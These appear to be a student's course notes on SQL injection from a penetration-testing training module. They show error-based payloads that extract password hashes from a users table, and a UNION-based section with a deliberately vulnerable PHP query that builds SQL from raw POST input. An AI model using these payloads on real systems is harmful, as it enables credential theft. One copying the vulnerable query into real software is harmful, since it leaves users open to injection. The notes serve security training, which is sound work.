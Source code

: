#### SQLi payload inside the 'Username' field
![[Pasted image 20230521093328.png]]

#### Testing for SQLi Authentication Bypass 2
![[Pasted image 20230521093348.png]]

#### Error-based payload
```
' or 1=1 in (select @@version) -- //
```

#### Testing for Error-based payload
![[Pasted image 20230521093545.png]]

#### Attempting to retrieve the Users table
```
' OR 1=1 in (SELECT * FROM users) -- //
```

#### Testing for Error-based payload
![[Pasted image 20230521093701.png]]
This means we should only query one user at a time

#### Grabbing only the _password_ column from the _users_ table
```
' or 1=1 in (SELECT password FROM users) -- //
```

#### Retrieving Users Hashes
![[Pasted image 20230521093820.png]]

#### Improving our SQLi error-based payload
```
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```

#### Retrieving Users Hashes
![[Pasted image 20230521093915.png]]

### 10.2.2 UNION-based Payloads

For **UNION** SQLi attacks to work, we first need to satisfy two conditions:

1.  The injected **UNION** query has to include the same number of columns as the original query.
2.  The data types need to be compatible between each column.

#### Vulnerable SQL Query
```PHP
$query = "SELECT * from customers WHERE name LIKE '".$_POST["search_input"]."%'";
```
The query fetches all the records from the _customers_ table. It also includes the **LIKE**[2](https://portal.offsec.com/courses/pen-200-2023/books-and-videos/modal/modules/sql-injection-attacks/manual-sql-exploitation/union-based-payloads#fn2) keyword to search any _name_ values containing our input that are followed by zero or any number of characters, as specified by the percentage (_%_) operator.
